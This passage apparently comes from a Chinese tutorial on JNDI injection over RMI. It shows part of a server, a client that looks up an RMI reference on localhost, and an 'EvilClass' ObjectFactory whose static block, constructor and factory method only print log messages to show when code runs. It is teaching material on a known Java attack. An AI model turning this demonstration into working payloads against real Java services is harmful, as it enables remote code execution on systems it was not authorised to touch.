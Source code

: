```bash

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

客户端代码：

```bash
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.directory.*;
import java.util.Hashtable;

public class JNDILookup {
    public static void main(String[] args) {
        try {
            Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Foo");
            System.out.println("ret: " + ret);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

恶意类：

```bash
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    static void log(String key) {
        try {
            System.out.println("EvilClass: " + key);
        } catch (Exception e) {
            // do nothing
        }
    }

    {
        EvilClass.log("IIB block");
    }

    static {
        EvilClass.log("static block");
    }

    public EvilClass() {
        EvilClass.log("constructor");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        EvilClass.log("getObjectInstance");
        return null;
    }
```